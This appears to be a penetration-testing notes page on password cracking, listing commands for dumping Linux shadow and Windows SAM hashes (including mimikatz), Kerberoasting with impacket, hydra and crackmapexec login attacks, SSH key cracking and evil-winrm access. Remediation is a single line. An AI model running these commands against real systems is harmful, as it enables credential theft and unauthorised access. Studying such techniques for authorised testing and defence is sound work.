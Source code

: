```yaml
---
title: Password Cracking Tools and Techniques
summary: Use of different tools to used for cracking password
description: Use of different tools to used for cracking password
slug: '/password-cracking-tools-and-techniques'
tags: ['ethical hacking', 'penetration testing', 'john the ripper', 'hashcat']
categories: ['ethical hacking']
---
```


## Intro

### Dictionary Attacks

> CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper.

| Type            | Path                                |
| --------------- | ----------------------------------- |
| John The Ripper | /usr/share/john/password.lst        |
| Rock You        | /usr/share/wordlists/rockyou.txt.gz |

```bash
locate wordlists

gzip -d /usr/share/wordlists/rockyou.txt.gz rockyou.txt
or
gunzip /usr/share/wordlists/rockyou.txt.gz rockyou.txt
```

## Exploration

### Linux

In Linux, the `/etc/passwd` file contains potentially important metadata in the GECOS field, including full name, room number, work phone, home phone, and others. Linux stores password hashes in the `/etc/shadow` file, which is why you need to use the sudo command to view it.

```bash
cat /etc/passwd
sudo cat /etc/shadow
```

The `unshadow` utility combines the /etc/passwd and /etc/shadow files. This is done so that John the Ripper can attempt to crack the password with information from both files, using a single file.

```bash
sudo unshadow /etc/passwd /etc/shadow > combined.txt
```

## Exploitation

### Linux Password

> Kali Linux 2021.1 changed the hash function for passwords from sha512crypt (listed as $6$ in the /etc/shadow file) to yescrypt (listed as $y$ in the /etc/shadow file).

```bash
sudo adduser vulnuser (room number: 8848.86 password vulnuser8848.86)
# [Your First Name] user a password of [Your Second Name] (you will not
# see anything on the screen when you type the password).
# Press ENTER for all the subsequent prompts
# (Full Name, Room Number, Work Phone, Home Phone, and Other) until the
# last prompt, which asks “Is the information correct? [Y/n].
```

#### John The Ripper

> John the Ripper will not attempt to crack a password it has already cracked.

```bash
# By the time you are reading this, support for the $y$ hashes might
# be incorporated into John the Ripper, which would mean you could
# leave off --format=crypt for some speedup
sudo john --wordlist=/usr/share/john/password.lst --format=crypt combined.txt

# See all passwords already cracked.
sudo john --show --format=crypt combined.txt

# To remove remembered password.
sudo rm /root/.john/john.pot

# By default single crack mode, uses the GECOS field, without wordlist.
sudo john --format=crypt combined.txt

sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt combined.txt
```

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 faiz.txt
```

#### hydra

```bash
# Target FTP
hydra -L username.txt -P /usr/share/wordlists/rockyou.txt ftp <target-ip-addr> -vV
  -L username file
  -l username
  -P password file
  -p password

# Target SSH
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target-ip-addr> -vV
```

### Windows Password

Creating user:

- Click the **Start** button or in the search box, type **Computer Management**, and select **Computer Management**. This opens the **Computer Management Console**.
- Expand **Local Users and Groups** in the pane at the left.
- Click **Users** to see all the current local user accounts.
- Right-click on a blank area in the right pane and select **New User**.
- Fill in the fields, creating a four-digit password with just lowercase letters.
- Clear the checkbox next to User Must Change Password At Next Logon and click the **Create**

```powershell
reg save hklm\SAM sam.hiv
reg save hklm\SYSTEM system.hiv

mimikatz
> privilege::debug
> token::elevate

# Send the next command’s output to a text file called hashes.txt:
> log hashes.txt

# Output the usernames and hashes for all accounts on the system:
> lsadump::sam sam.hiv system.hiv
```

e.g. windowshashes.txt

```txt
Beatles:5be2f274f2f80c5d4d0c597f023f4f61::::
StarWars:b7c899154197e8a2a33121d76a240ab5::::
```

#### GetUserSPNs.py

> Note: If there is misconfigured account, we can obtain the credentials from Active Directory using `GetUserSPNs`.

```bash
impacket-GetUserSPNs -dc-ip <dc-ip-addr> <host>.local/<user>:<pass> -request
```

> If error: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` you need to synchronize the host with the Domain Controller time.

```bash
# Download from here https://sourceforge.net/projects/openrdate/
tar -xvzf opendate-1.2.tar.gz

cd opendate
./configure
make
make install
rdate -n <domain-controller-ip>
```

#### John The Ripper

```bash
# Brute force of 4 character.
sudo crunch 4 4 | sudo john --format=NT windowshashes.txt --stdin

sudo john --format=NT windowhashes.txt

sudo john --show --format=NT windowshashes.txt

john --format=krb5tgs --wordlist=password.txt hash.kerberoast
```

#### crackmapexec

```bash
# Generating passwords. e.g. (ADMINISTRATOR1996)
crunch 18 18 -t ^ADMINISTRATOR19%% > passwords.txt

crackmapexec winrm <target-ip-addr> -u Administrator -p passlist
```

#### hashcat

```bash
hashcat -m 13100 --force -a 0 hash.kerberoast password.txt # -m refers to hash type
```

### SSH Pass key

```bash

python /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash.txt
or
john ssh_hash.txt

# Avoid Unprotected Warning
chmod 600 id_rsa

ssh -i id_rsa user@<target-ip-addr>
```

## Window Remote Management (WinRM)

```bash
gem install evil-winrm

evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'

# PowerShell
Get-ChildItem -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
# Windows Prompt
dir secret.doc /s /p

# Display content of file
type <path>
```

## Remediation

- Account Lockout.
